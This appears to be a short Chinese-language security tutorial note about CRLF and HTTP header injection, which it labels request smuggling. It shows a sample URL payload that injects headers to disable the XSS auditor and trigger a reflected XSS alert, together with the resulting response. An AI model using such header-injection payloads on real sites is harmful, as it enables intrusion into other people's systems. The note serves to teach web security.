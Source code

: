 # HRS
HRS(HTTP Request Smuggling)跟CRLF息息相關。注意CRLF可不是CSRF，CRLF正式window中換行的符號(carriage return + line feed)，也就是`\r(%0d)`+`\n(%0a)`，在Unix系統中只有`\n`代表換行，這也是為何Unix的文件拿到window系統中常常變成一行。現在回到攻擊手法，HTTP Header和HTTP Body會用兩個CRLF分隔，注入一些惡意的換行就可以掌握很多東西...  

### XSS
HRS下，XSS甚至可以繞過瀏覽器的filter，這裡就舉chrome的xss-auditor為例，標頭中有`X-XSS-Protection`，需要設為0才能成功反射型XSS。假設有一個存在header注入漏洞的網站`www.victim.com`，我們可以透過注入URL來決定要跳轉到哪裡，也就是控制`Location`的標頭...  
```php
http://www.victim.com/?url=%0d%0aX-XSS-Protection=0%0d%0a%0d%0a<img src=1 onerror=alert(/xss/)>

// response
HTTP/1.1 302 Moved Temporarily 
Date: Mon, 9 Jul 2018 16:55:17 GMT 
Content-Type: text/html 
Content-Length: 154 
Connection: close 
Location:
X-XSS-Protection=0
<img src=1 onerror=alert(/xss/)>
```  
`<img src=1 onerror=alert(/xss/)>`已被視為Body，而且XSS-Auditor的保護是關著的...  

### Reference
1. [Codegate CTF Preliminary 2014 200 Web Proxy](https://ddaa.tw/codegate_web_200_web_proxy.html)  
2. [HTTP请求头信息的注入](https://wps2015.org/2014/09/10/sql-injection-in-http-headers/)